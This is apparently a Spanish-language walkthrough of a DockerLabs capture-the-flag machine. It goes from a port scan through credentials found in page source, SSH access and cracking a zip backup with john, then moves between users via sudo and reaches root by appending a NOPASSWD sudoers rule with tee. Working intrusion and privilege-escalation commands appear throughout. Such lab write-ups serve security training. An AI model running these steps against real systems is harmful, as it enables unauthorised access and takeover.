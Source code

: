 nmap: 80, 8899
![image](https://github.com/user-attachments/assets/3640f876-af5a-4520-8312-e1baa9297e3c)


---

en la pagina principal da un usuario "rosa" y posibles contraseñas en texto plano txt y un sha384:
![image](https://github.com/user-attachments/assets/e5b6b0b1-ddc1-46da-b4d1-14900eaf7de0)


      -UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1
los pasamos por un sha384: https://emn178.github.io/online-tools/sha384.html

y nos da: 

>e762c3709721038d65fa8365bbd50e88fd5515f56ee41c64e157607793d1bc8ce2ffd67a6e93431008b0cce67fa70c57

si voy a formulario de la pagina principal y voy al código fuente encontramos esto:
![image](https://github.com/user-attachments/assets/8332872b-8231-4713-8063-99ce0c01c9d9)

"rosa:lacagadenuevo" (posible contraseña)
probamos:

     - ssh rosa@172.18.0.2 -p 8899 (porque el puerto 22 esta cerrado)

vemos que podemos entrar:

![image](https://github.com/user-attachments/assets/f944088b-07c4-44f3-ab79-afb6f5c66152)


encontré esto:

![image](https://github.com/user-attachments/assets/5af3897b-ba52-4fde-be0a-01cd25f6cc20)


dentro vamos a la carpeta: cd > cd ./- > abrimos un servidor y en nuestro terminal un curl:

     curl http://172.18.0.2:8080/backup_rosa.zip --output rosa.zip

nos pasamos el zip

![image](https://github.com/user-attachments/assets/af76f6a6-3cb2-4d7c-845b-c4e590ebb4d1)


nos pide una contraseña así que intentamos un "john"

         zip2john rosa.zip > hash.txt
          john hash.txt

y nos da la contraseña:

![image](https://github.com/user-attachments/assets/bae5bb6f-8dd8-4cb1-b0b5-9010d2342f90)

ingresamos a la terminal victima y con al contraseña vemos lo que dice en "password.txt"
contraseña: hackwhitbash

![image](https://github.com/user-attachments/assets/f1011197-0a68-4287-ad10-2fdd0744a00f)

probamos con "juan" y ahora somos el usuario "juan"
con sudo -l  vemos que carlos ejecuta "tree / cat" 
colocamos:

    sudo -u carlos tree /home/carlos

da que tenemos un directorio con nombre "password" hacemos un
    
    sudo -u carlos cat /home/carlos/password

nos da la contraseña de carlos: chocolateado
![[contraseña3.png]]


con sudo -l  y carlos ejecuta un "tee"
buscamos en: https://gtfobins.github.io/gtfobins/tee/
y seguimos los pasos:

    LFILE=/etc/sudoers.d/carlos
     echo "carlos ALL=(ALL) NOPASSWD: ALL" | sudo tee -a "$LFILE"

ejecutamos "sudo su"
![[dockerlabs/medio/bashpariencias/root.png]]
 y somos root!.
